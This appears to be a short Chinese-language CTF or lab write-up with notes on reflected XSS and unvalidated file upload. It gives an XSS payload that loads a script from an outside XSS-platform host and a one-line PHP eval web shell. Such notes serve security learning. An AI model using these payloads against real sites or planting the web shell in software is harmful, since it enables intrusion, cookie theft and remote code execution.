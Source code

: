 ### 反射型

利用xss platform平台创建一个xss反射型的脚本

```
</tExtArEa>'"><sCRiPt sRC=//xs.sb/wnbP></sCrIpT> 
```

没什么好记的操作很简单直接上大佬的wp

https://blog.csdn.net/weixin_43486981/article/details/107974878

## 文件上传

### 无验证

一句话，一把梭

```
<?php @eval($_POST['shell']);?> 
```

![](img/254dc17ee442b4714a36d823eabb73e1.png)

![](img/29c785016963a05de4a686e0326b137c.png)
